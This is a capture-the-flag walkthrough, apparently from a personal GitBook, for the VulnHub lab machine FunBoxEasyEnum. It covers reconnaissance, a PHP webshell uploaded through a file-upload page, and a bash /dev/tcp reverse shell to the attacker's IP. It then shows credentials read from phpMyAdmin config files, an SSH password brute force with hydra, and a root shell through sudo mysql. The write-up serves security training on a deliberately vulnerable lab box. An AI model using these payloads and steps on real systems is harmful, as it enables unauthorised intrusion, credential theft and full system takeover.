



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# FunBoxEasyEnum

## Summary

[FunBoxEasyEnum](https://www.vulnhub.com/entry/funbox-easyenum,565/) is an <mark style="color:green;">easy-rated</mark> box that initial reconnaissance reveals standard services, leading to the discovery of **vulnerable web functionality**. By exploiting **file upload** features, RCE[^1] is achieved, which subsequently leads to a reverse shell. Privilege escalation is accomplished by performing a [**BFA**](#user-content-fn-2)[^2] **against the SSH** server and root access is achieved by leveraging a **`suid` binary**.

<table><thead><tr><th width="94" align="center">Step</th><th>Action</th><th width="186">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="center">1</td><td>Dirbusting</td><td><a href="broken-reference"><code>ffuf</code></a></td><td>Upload functionality, RCE</td></tr><tr><td align="center">2</td><td><a data-footnote-ref href="#user-content-fn-2">BFA</a> against SSH</td><td><a href="../../tools/web/hydra.md"><code>hydra</code></a></td><td>Privilege escalation</td></tr><tr><td align="center">3</td><td>Manual enumeration</td><td><a data-footnote-ref href="#user-content-fn-3">LotL</a></td><td>Root access</td></tr></tbody></table>

## Recon

```bash
$ sudo nmap -T4 --min-rate 10000 -p- -open 192.168.210.132 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```


```bash
$ whatweb http://192.168.210.132

http://192.168.210.132 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[192.168.210.132], Title[Apache2 Ubuntu Default Page: It works]
```



```bash
$ ffuf -u http://192.168.210.132/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac -ic -c -e .php,.txt

javascript          [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 41ms]
mini.php            [Status: 200, Size: 3828, Words: 152, Lines: 115, Duration: 40ms]
robots.txt          [Status: 200, Size: 21, Words: 2, Lines: 2, Duration: 39ms]
phpmyadmin          [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 39ms]
```


## Auth Bypass

Visiting the directories reveals some interesting clues:

* `/robots.txt` -> `/Enum_this_Box`
* `/mini.php` -> upload functionality
* `/phpmyadmin` -> login page

Attempting to log into the `/phpmyadmin` page reveals that `MySQL` is used on the back-end (Figure 1).

<figure><figcaption><p>Figure 1: The login page has verbose error messages.</p></figcaption></figure>


```bash
$ ffuf -u http://192.168.210.132/phpmyadmin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-mediu
m.txt -ac -ic -c -e .php,.txt

themes           [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 38ms]
themes.php       [Status: 200, Size: 10532, Words: 504, Lines: 26, Duration: 38ms]
doc              [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 40ms]
index.php        [Status: 200, Size: 10531, Words: 504, Lines: 26, Duration: 4244ms]
navigation.php   [Status: 200, Size: 10536, Words: 504, Lines: 26, Duration: 40ms]
license.php      [Status: 200, Size: 10533, Words: 504, Lines: 26, Duration: 43ms]
js               [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 39ms]
logout.php       [Status: 200, Size: 10532, Words: 504, Lines: 26, Duration: 43ms]
changelog.php    [Status: 200, Size: 10535, Words: 504, Lines: 26, Duration: 40ms]
url.php          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
export.php       [Status: 200, Size: 10532, Words: 504, Lines: 26, Duration: 40ms]
setup            [Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 40ms]
sql              [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 39ms]
sql.php          [Status: 200, Size: 10529, Words: 504, Lines: 26, Duration: 39ms]
locale           [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 39ms]
import.php       [Status: 200, Size: 10532, Words: 504, Lines: 26, Duration: 39ms]
lint.php         [Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 39ms]
server_status.php [Status: 200, Size: 10539, Words: 504, Lines: 26, Duration: 42ms]
phpinfo.php     [Status: 200, Size: 10533, Words: 504, Lines: 26, Duration: 40ms]
db_search.php   [Status: 200, Size: 10535, Words: 504, Lines: 26, Duration: 40ms]
```


We don't have any credentials to use, so let's turn into the upload functionality and try to upload a basic PHP webshell (Figure 2).


```php
<?php system($_GET['cmd']); ?>
```


<figure><figcaption><p>Figure 2: Uplolading a basic PHP webshell.</p></figcaption></figure>

```bash
$ curl http://192.168.210.132/webshell.php?cmd=cat+../local.txt
d18<REDACTED>a71
```

## RCE

Since we have already achieved RCE, we can convert our webshell to a reverse shell (Figure 3).

```bash
# payload used
bash -c 'bash -i >& /dev/tcp/192.168.45.171/9090 0>&1'
```

<figure><figcaption><p>Figure 3: Sending a reverse shell command via our webshell.</p></figcaption></figure>

```bash
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.210.132] 48424
bash: cannot set terminal process group (1312): Inappropriate ioctl for device
bash: no job control in this shell
www-data@funbox7:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Before starting enumerating the box, we can use `python3` to [upgrade it](https://x7331.gitbook.io/boxes/tools/shells/upgrade#script-python) and then read `local.txt` under `/var/www/`.

```bash
www-data@funbox7:/var/www$ ls
html  local.txt
```

There are five users that have a shell on the box, but all of their `/home` directories are empty. Reading the `/etc/passwd` file, we can see that there is another user (`lissy`) that does not have a `/home` directory. We can also see that for the user `oracle` its password hash is included, but, unfortunately, cannot be cracked with `hashcat`.

```bash
www-data@funbox7:/tmp$ cat /etc/phpmyadmin/config-db.php
<SNIP>
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

www-data@funbox7:/tmp$ cat /var/lib/phpmyadmin/blowfish_secret.inc.php
<SNIP>
$cfg['blowfish_secret'] = 'NZ7uiQns?c$8nkrQt^9E(?8OqdhwK!_!';
```

Looking at open ports, we see that there is a MySQL server on `3306`.

```bash
www-data@funbox7:/$ netstat -ltpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Transferring and running [`linpeas.sh`](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the target reveals some interesting files.


```bash
<SNIP>
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root www-data 525 Sep 18  2020 /etc/phpmyadmin/config-db.php
-rw-r----- 1 root www-data 8 Sep 18  2020 /etc/phpmyadmin/htpasswd.setup
-rw-r----- 1 root www-data 68 Sep 18  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php
-rw-r----- 1 root www-data 0 Sep 18  2020 /var/lib/phpmyadmin/config.inc.php
<SNIP>
```


Reading these files reveals MySQL credentials along with the `blowfish_secret`.


The `blowfish_secret` in `phpMyAdmin` is a critical security component that helps protect sensitive data. Accessing this value could potentially allow us to decrypt encrypted data, especially session cookies.


```bash
www-data@funbox7:/tmp$ cat /etc/phpmyadmin/config-db.php
<SNIP>
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

www-data@funbox7:/tmp$ cat /var/lib/phpmyadmin/blowfish_secret.inc.php
<SNIP>
$cfg['blowfish_secret'] = 'NZ7uiQns?c$8nkrQt^9E(?8OqdhwK!_!';
```

Exploring the database does not help us to progress further.


```bash
www-data@funbox7:/tmp$ mysql -h localhost -u 'phpmyadmin' -p'tgbzhnujm!'
<SNIP>

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| phpmyadmin         |
+--------------------+

mysql> USE phpmyadmin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_phpmyadmin   |
+------------------------+
| pma__bookmark          |
| pma__central_columns   |
| pma__column_info       |
<SNIP>
| pma__userconfig        |
| pma__usergroups        |
| pma__users             |
+------------------------+
```


The same credentials allow us to login into the website, but nothing of use is found there either. So let's step back here: we have a five users that we haven't leveraged yet. The machine has the SSH port open, so we could try brute forcing the password of those users. Brute-forcing SSH can take a long time, so let's start simple by using their names as passwords first.

```bash
$ cat users.txt
goat
harry
karla
oracle
sally

$ hydra -L users.txt -P users.txt ssh://192.168.210.132:22 -t 4
<SNIP>
[DATA] attacking ssh://192.168.210.132:22/
[22][ssh] host: 192.168.210.132   login: goat   password: goat
1 of 1 target successfully completed, 1 valid password found
```

We can now use `ssh` to log into the machine as `goat`.

```bash
$ ssh goat@192.168.210.132
<SNIP>
goat@funbox7:~$
```

We can first check if this user can run any program as `root`.


```bash
goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql
```


Checking [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/#sudo) for `mysql` privilege escalation techniques, we find a way.

```bash
goat@funbox7:~$ sudo /usr/bin/mysql -e '\! /bin/sh'
# cat /root/proof.txt
4cd<REDACTED>b56
```

[^1]: Remote Code Execution

[^2]: Brute Force Attack

[^3]: Living off the Land
